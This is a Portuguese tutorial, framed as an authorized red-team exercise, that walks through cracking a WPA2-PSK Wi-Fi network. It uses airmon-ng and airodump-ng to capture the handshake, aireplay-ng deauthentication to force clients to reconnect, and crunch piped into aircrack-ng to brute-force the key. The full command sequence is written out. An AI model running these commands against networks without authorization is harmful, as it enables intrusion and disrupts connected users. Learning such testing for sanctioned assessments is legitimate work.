 # Operação real de Red Team
onde você utilizaria o `aircrack-ng` para capturar pacotes e recuperar o handshake de uma rede Wi-Fi, e em seguida, usaria o `crunch` para gerar uma lista de senhas que seria alimentada diretamente no `aircrack-ng` para tentar quebrar a senha da rede.

### Operação de Red Team: Exemplo Prático

#### Cenário

Você é membro de uma equipe de Red Team contratada para testar a segurança de uma empresa. Uma das tarefas é avaliar a segurança da rede Wi-Fi da mesma, identificada como `Empresa_WIFI`. A rede utiliza WPA2-PSK (Pre-Shared Key) para autenticação.

#### Passo 1: Preparação do Ambiente

1. **Habilitar Modo Monitor na Interface de Rede**

```bash
sudo airmon-ng start wlan0
```
Este comando ativa o modo monitor na interface `wlan0`, permitindo que você capture pacotes sem estar conectado à rede.

2. **Capturar Pacotes da Rede Alvo**

```bash
sudo airodump-ng wlan0mon
```
Identifique o BSSID (endereço MAC) e o canal da rede `Empresa_WIFI`. Suponha que o BSSID seja `00:11:22:33:44:55` e o canal seja `6`.

3. **Focar na Rede Alvo e Capturar Handshake**

```bash
sudo airodump-ng --bssid 00:11:22:33:44:55 --channel 6 --write captura Empresa_WIFI wlan0mon
```
Isso captura pacotes da rede `Empresa_WIFI` e salva em um arquivo chamado `captura`.

4. **Forçar a Reautenticação de Clientes (Opcional)**

Para capturar a handshake mais rapidamente, force a desautenticação de um cliente conectado:

```bash
sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon
```
Substitua `AA:BB:CC:DD:EE:FF` pelo endereço MAC de um cliente conectado. Isso envia 10 pacotes de desautenticação, forçando o cliente a se reconectar, momento em que a handshake será capturada.

#### Passo 2: Quebrar a Senha Usando Aircrack-ng e Crunch

1. **Verificar se a Handshake foi Capturada**

Após a captura, verifique se a handshake foi capturada corretamente:

```bash
aircrack-ng captura-01.cap
```
Você deve ver uma mensagem indicando que a handshake foi encontrada.

2. **Gerar e Quebrar Senhas com Crunch e Aircrack-ng**

Use o `crunch` para gerar senhas e passe-as diretamente para o `aircrack-ng` usando pipes (`|`):

```bash
crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789 | aircrack-ng -w - -b 00:11:22:33:44:55 captura-01.cap
```
Neste comando:
- `crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789` gera todas as combinações possíveis de senhas com 8 caracteres usando letras minúsculas e dígitos.
- O pipe `|` redireciona a saída de `crunch` diretamente para o `aircrack-ng`.
- `-w -` indica que `aircrack-ng` deve ler a lista de senhas da entrada padrão (stdin).
- `-b 00:11:22:33:44:55` especifica o BSSID da rede alvo.
- `captura-01.cap` é o arquivo de captura que contém a handshake.

### Resumo da Operação

1. **Preparação**: Habilitar modo monitor e capturar pacotes.
2. **Foco na Rede Alvo**: Usar `airodump-ng` para focar na rede alvo e capturar a handshake.
3. **Forçar Reautenticação (Opcional)**: Usar `aireplay-ng` para desautenticar clientes e capturar a handshake.
4. **Quebrar a Senha**: Usar `crunch` para gerar senhas e passar para `aircrack-ng` para tentar quebrar a senha WPA2-PSK.

Esta operação combina a captura de pacotes e a quebra de senha usando ferramentas especializadas de segurança, demonstrando um exemplo de como uma equipe de Red Team pode testar a segurança de uma rede Wi-Fi.
